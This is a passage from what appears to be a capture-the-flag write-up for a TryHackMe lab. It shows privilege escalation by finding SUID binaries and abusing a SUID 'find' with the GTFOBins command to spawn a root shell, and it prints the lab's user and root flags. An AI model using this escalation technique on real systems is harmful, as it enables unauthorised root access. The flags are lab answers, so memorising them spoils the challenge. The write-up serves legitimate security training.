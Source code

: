 ``FLAG ONE: THM{USER_FLAG_1231_EXPOSE}``

### Privilege Escalation:
From the look of things the user cannot run ``sudo``
```
zeamkish@ip-10-10-222-102:~$ sudo -l
[sudo] password for zeamkish: 
Sorry, user zeamkish may not run sudo on ip-10-10-222-102.
zeamkish@ip-10-10-222-102:~$
```

Now, let’s look for any binaries with SUID bit set

``find / -type f -perm -u=s 2>/dev/null``
From the response we can see that we have the find binary with SUID bit set.

![](https://miro.medium.com/v2/resize:fit:700/1*9ndEp48tdTJtxt8D8XNgSQ.png)

We can use the [**GTFobins**](https://gtfobins.github.io/gtfobins/find/#suid) script to escalate our privilege.

/usr/bin/find . -exec /bin/sh -p \; -quit

After running the above command we got a root shell.

```
zeamkish@ip-10-10-222-102:~$ /usr/bin/sudo cd /root
[sudo] password for zeamkish: 
zeamkish is not in the sudoers file.  This incident will be reported.
zeamkish@ip-10-10-222-102:~$ /usr/bin/fin
finalrd  fincore  find     findmnt  
zeamkish@ip-10-10-222-102:~$ /usr/bin/find . -exec /bin/sh -p \; -quit
# whoami
root
# ls
flag.txt  ssh_creds.txt
# cat flag.txt	
THM{USER_FLAG_1231_EXPOSE}
# ls -l /root	
total 8
-rw-r--r-- 1 root root   23 Jun 11  2023 flag.txt
drwxr-xr-x 4 root root 4096 May 25  2023 snap
# cat /root/flag.txt
THM{ROOT_EXPOSED_1001}
```
Found root flag: ``THM{ROOT_EXPOSED_1001}``

